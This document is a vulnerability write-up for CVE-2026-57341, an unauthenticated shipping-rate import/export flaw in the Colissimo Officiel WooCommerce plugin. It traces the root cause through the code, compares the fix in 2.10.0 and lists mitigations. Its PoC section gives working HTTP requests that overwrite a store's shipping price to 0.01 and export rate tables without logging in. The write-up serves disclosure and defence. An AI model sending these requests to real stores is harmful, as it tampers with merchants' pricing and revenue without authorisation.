





# CVE-2026-57341 - Colissimo Officiel Unauthenticated Shipping Rate Tampering

## Overview

- Advisory: https://www.cve.org/CVERecord?id=CVE-2026-57341
- CVE-2026-57341
- Affected plugin: Colissimo Officiel : Méthodes de livraison pour WooCommerce
- Version Tested: `2.9.0`
- Affected versions: `<= 2.9.0`

## Summary

The vulnerability exists in the Colissimo plugin's shipping-rate import/export workflow.

In Colissimo Officiel `2.9.0`, the plugin registers a shared AJAX dispatcher for both authenticated users and unauthenticated visitors. When a request is sent through `wp-admin/admin-ajax.php`, WordPress runs it in an admin AJAX context, which causes the plugin to load its admin initializer. As a result, administrative tasks related to shipping-rate management are also registered into the shared dispatcher:

```text
shipping/import
shipping/export
```

Both tasks accept `method_id` from the request. In the vulnerable version, neither the dispatcher nor the import/export callbacks verify a WordPress nonce, and they do not enforce a capability check such as `manage_woocommerce` or a Colissimo-specific management capability.

As a result, an unauthenticated attacker can:

1. Import an attacker-controlled CSV file into a configured Colissimo shipping method.
2. Overwrite the `shipping_rates` option for that shipping method.
3. Export the shipping-rate table without authentication.
4. Force WooCommerce checkout to calculate shipping using the attacker-controlled price.

In the test environment, I changed the shipping fee from `12.34` to `0.01` with a request that did not include a `Cookie`, a nonce, or a WordPress session.

## Discovery Process

I started by reviewing the plugin's AJAX routes because WooCommerce shipping plugins often expose endpoints for both frontend and admin workflows.

The first notable issue is in the dispatcher in `includes/lpc_ajax.php`. The plugin registers the same `dispatch()` function for both `wp_ajax_*` and `wp_ajax_nopriv_*`:

```php
add_action('wp_ajax_' . LPC_COMPONENT, [$this, 'dispatch']);
add_action('wp_ajax_nopriv_' . LPC_COMPONENT, [$this, 'dispatch']);
```

The presence of `wp_ajax_nopriv_*` is not automatically a vulnerability, because some frontend features may legitimately require public AJAX. The issue to verify is whether admin-only tasks are registered into this public dispatcher.

In `index.php`, when the request goes through `admin-ajax.php`, the plugin loads `admin/init.php` because both `WP_ADMIN` and `DOING_AJAX` are defined:

```php
if (defined('WP_ADMIN') && WP_ADMIN) {
    require_once LPC_ADMIN . 'init.php';
    new LpcAdminInit();

    if (defined('DOING_AJAX') && DOING_AJAX) {
        require_once LPC_PUBLIC . 'init.php';
        new LpcPublicInit();
    }
}
```

In `admin/init.php`, the plugin registers the `LpcShippingRates` class:

```php
LpcRegister::register('shippingRates', new LpcShippingRates());
```

This class then registers the import/export tasks into the AJAX dispatcher. The final step was to verify whether `LpcShippingRates::import()` and `LpcShippingRates::export()` enforce authorization. In version `2.9.0`, they do not. An unauthenticated import request still returns `{"type":"success"}` and updates the shipping method option.

## Patch Analysis

The issue was fixed in Colissimo Officiel `2.10.0`.

In `2.9.0`, the dispatcher only checks whether the requested `task` exists in the registered task list before invoking the matching callback:

```php
public function dispatch() {
    $ajaxCall = LpcHelper::getVar('task');
    if (is_string($ajaxCall)) {
        if (isset($this->tasks[$ajaxCall])) {
            $f = $this->tasks[$ajaxCall];
            $result = $f();
        }
    }
}
```

There is no nonce check and no capability check before the task is called.

In `2.10.0`, the dispatcher was changed to require a nonce per task and to check whether the task is admin-only:

```php
if (1 !== (int) check_ajax_referer($ajaxCall, self::NONCE_NAME, false)) {
    $result = $this->makeAndLogError(['message' => 'Authentication failed']);
    $this->jsonResponse($result);
}

$isAdmin = current_user_can('lpc_manage_settings');
if (!$isAdmin && $this->tasks[$ajaxCall]['onlyAdmin']) {
    $result = $this->makeAndLogError(['message' => 'Not allowed']);
    $this->jsonResponse($result);
}
```

The shipping-rate import/export callbacks were also updated with direct capability checks:

```php
public function export() {
    if (!current_user_can('lpc_manage_settings')) {
        header('HTTP/1.0 401 Unauthorized');
        return $this->ajaxDispatcher->makeAndLogError(
            [
                'message' => 'Unauthorized access',
            ]
        );
    }
}
```

```php
public function import() {
    if (!current_user_can('lpc_manage_settings')) {
        header('HTTP/1.0 401 Unauthorized');
        die(
            json_encode(
                [
                    'type'    => 'error',
                    'message' => 'Unauthorized access',
                ]
            )
        );
    }
}
```

The official WordPress.org changelog for version `2.10.0` also notes that it fixed a vulnerability allowing unrestricted access to shipping-rate tables and order shipping methods.

## Root Cause

The root cause is that administrative shipping-rate tasks are registered into an AJAX dispatcher that is reachable without authentication, but no corresponding authorization layer is enforced.

### 1. The Dispatcher Is Exposed to Unauthenticated Users

The plugin registers the dispatcher through the `wp_ajax_nopriv_*` hook:

```php
add_action('wp_ajax_nopriv_' . LPC_COMPONENT, [$this, 'dispatch']);
```

The endpoint is reachable without a session:

```text
/wp-admin/admin-ajax.php?action=colissimo-shipping-methods-for-woocommerce
```

### 2. admin-ajax.php Loads Admin Tasks

Because `admin-ajax.php` runs in an admin context, `index.php` loads `admin/init.php`. That file registers `LpcShippingRates`, which places the shipping-rate import/export tasks into the shared dispatcher.

### 3. Import and Export Are Registered Without Authorization Checks

In `LpcShippingRates::listenToAjaxAction()`, the plugin registers the two affected tasks:

```php
protected function listenToAjaxAction() {
    $this->ajaxDispatcher->register(self::AJAX_TASK_NAME_EXPORT, [$this, 'export']);
    $this->ajaxDispatcher->register(self::AJAX_TASK_NAME_IMPORT, [$this, 'import']);
}
```

In `2.9.0`, there is no `current_user_can()`, no `check_ajax_referer()`, and no equivalent authorization mechanism before the request is processed.

### 4. Export Reads the Shipping Method Based on Request-Controlled method_id

The export callback obtains the shipping method using the caller-controlled `method_id`, then returns its rate table:

```php
$shippingMethod = WC_Shipping_Zones::get_shipping_method(LpcHelper::getVar('method_id'));
$shippingRates = $shippingMethod->get_option('shipping_rates', []);
```

This allows an unauthenticated attacker to read the CSV rate table for a valid method instance.

### 5. Import Writes Attacker-Controlled CSV Data Into the Option

The import callback accepts an uploaded CSV file, parses it into `$rates`, retrieves the shipping method using `method_id`, and updates that method's option:

```php
$shippingMethod = WC_Shipping_Zones::get_shipping_method(LpcHelper::getVar('method_id'));
$optionName     = $shippingMethod->get_instance_option_key();
$currentOptions = get_option($optionName, []);

$currentOptions['shipping_rates'] = $rates;

if (update_option($optionName, $currentOptions, false)) {
    die(json_encode(
        [
            'type' => 'success',
        ]
    ));
}
```

The important sink is:

```php
update_option($optionName, $currentOptions, false)
```

Here, `$optionName` is derived from the shipping method instance selected by the attacker through `method_id`.

## Exploitation Conditions

The following conditions are required:

- WordPress has WooCommerce active.
- Colissimo Officiel is running version `<= 2.9.0`.
- The store has at least one Colissimo shipping method configured in a WooCommerce shipping zone.
- The attacker knows or can guess a valid shipping method instance ID, for example `method_id=1`.
- No WordPress account is required.

## Exploitation Flow

```text
Unauthenticated attacker
        |
        v
POST /wp-admin/admin-ajax.php
action=colissimo-shipping-methods-for-woocommerce
task=shipping/import
method_id=<shipping_method_instance_id>
        |
        v
LpcAjax::dispatch()
        |
        v
LpcShippingRates::import()
        |
        v
Parse attacker-controlled CSV
        |
        v
WC_Shipping_Zones::get_shipping_method(method_id)
        |
        v
update_option(<instance_option_key>, attacker_rates)
        |
        v
WooCommerce checkout uses the attacker-controlled shipping price
```

## PoC

Test environment:

```text
Target:      http://192.168.1.14/wp/
WordPress:   7.0.2
PHP:         8.3.6
WooCommerce: 10.7.0
Colissimo:   2.9.0
Method ID:   1
Method type: lpc_nosign
```



Before exploitation, the shipping method had an administrator-configured price of `12.34`:

```json
{
    "title": "Colissimo No Signature Confirm",
    "tax_status": "none",
    "always_free": "no",
    "title_free": "",
    "excluded_classes": [],
    "classes_free_shipping": [],
    "free_for_items_without_free_shipping_classes": "yes",
    "shipping_rates": [
        {
            "min_weight": 0,
            "max_weight": 1,
            "min_price": 0,
            "max_price": 100,
            "shipping_class": [
                "all"
            ],
            "product_category": [
                "all"
            ],
            "price": 12.34
        }
    ],
    "shipping_discount": []
}
```



### 1. Import Shipping Rates Without Authentication

The following request has no `Cookie`, no nonce, and no WordPress session:

```http
POST /wp/wp-admin/admin-ajax.php?action=colissimo-shipping-methods-for-woocommerce&task=shipping/import&method_id=1 HTTP/1.1
Host: 192.168.1.14
User-Agent: Burp Suite
Accept: */*
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryColissimoFinal
Connection: close

------WebKitFormBoundaryColissimoFinal
Content-Disposition: form-data; name="lpc_shipping_rates_import"; filename="rates.csv"
Content-Type: text/csv

min_weight,min_price,shipping_class,price
0,0,all,0.01

------WebKitFormBoundaryColissimoFinal--
```

Response:

```http
HTTP/1.1 200 OK
Content-Type: text/html; charset=UTF-8

{"type":"success"}
```



After this request, the shipping method option was overwritten:

```json
{
    "title": "Colissimo No Signature Confirm",
    "tax_status": "none",
    "always_free": "no",
    "title_free": "",
    "excluded_classes": [],
    "classes_free_shipping": [],
    "free_for_items_without_free_shipping_classes": "yes",
    "shipping_rates": [
        {
            "min_weight": 0,
            "min_price": 0,
            "shipping_class": [
                "all"
            ],
            "price": 0.01
        }
    ],
    "shipping_discount": []
}
```


### 2. Export Shipping Rates Without Authentication

The attacker can also export the same method's shipping rates without being logged in:

```http
GET /wp/wp-admin/admin-ajax.php?action=colissimo-shipping-methods-for-woocommerce&task=shipping/export&method_id=1 HTTP/1.1
Host: 192.168.1.14
User-Agent: Burp Suite
Accept: */*
Connection: close
```

Response:

```http
HTTP/1.1 200 OK
Content-Disposition: attachment; filename=Export Colissimo No Signature Confirm 2026-07-20.csv
Content-Type: application/download

min_weight,max_weight,min_price,max_price,shipping_class,product_category,price
0,,0,,all,,0.01
```





### 3. Checkout Impact

After the import, WooCommerce calculates shipping using the attacker-controlled price:

```json
{
  "method_id": "lpc_nosign",
  "instance_id": 1,
  "rates": {
    "lpc_nosign:1": {
      "data": {
        "id": "lpc_nosign:1",
        "method_id": "lpc_nosign",
        "instance_id": 1,
        "label": "Colissimo No Signature Confirm",
        "cost": "0.01",
        "taxes": [],
        "tax_status": "none",
        "description": "",
        "delivery_time": ""
      },
      "meta_data": {
        "Items": "Shipping PoC Item &times; 1"
      }
    }
  }
}
```

This issue is not only an internal settings read/write problem. It directly affects WooCommerce checkout totals.

## Impact

An unauthenticated attacker can modify Colissimo shipping-rate tables on a WooCommerce store.

Practical impact includes:

- Forcing the shipping price to a very low value, such as `0.01`.
- Breaking shipping-price calculation by importing unsuitable rate tables.
- Reading configured shipping-rate tables through unauthenticated export.
- Modifying revenue-affecting store configuration without a WordPress account.

For stores that use Colissimo for real shipping calculations, this can cause direct business impact because customers can see and use attacker-controlled shipping prices.

## Limitations

- WooCommerce must be active.
- The store must have a configured Colissimo shipping method.
- The attacker must know or guess a valid shipping method instance ID.
- The vulnerability does not directly grant WordPress administrator privileges.
- The vulnerability does not directly provide arbitrary file read or full database disclosure. Its primary scope is the affected shipping-rate configuration.

## Mitigation

Site owners should update Colissimo Officiel to `2.10.0` or later.

For developers, the fix should include:

- Do not register admin-only tasks in a public `wp_ajax_nopriv` dispatcher.
- Check an appropriate capability, such as `lpc_manage_settings` or `manage_woocommerce`, before reading or writing shipping configuration.
- Require a nonce for state-changing AJAX requests.
- Validate that the requested `method_id` belongs to an intended Colissimo shipping method instance.
- Clearly separate public frontend AJAX tasks from administrative AJAX tasks.

In version `2.10.0`, the plugin added nonce verification, capability checks, and import/export callbacks that reject callers without the required permissions.

# References

- Colissimo shipping methods for WooCommerce: https://wordpress.org/plugins/colissimo-shipping-methods-for-woocommerce/
- Patchstack advisory: https://patchstack.com/database/wordpress/plugin/colissimo-shipping-methods-for-woocommerce/
- WordPress plugin source tag 2.9.0: https://plugins.svn.wordpress.org/colissimo-shipping-methods-for-woocommerce/tags/2.9.0/
- WordPress plugin source tag 2.10.0: https://plugins.svn.wordpress.org/colissimo-shipping-methods-for-woocommerce/tags/2.10.0/
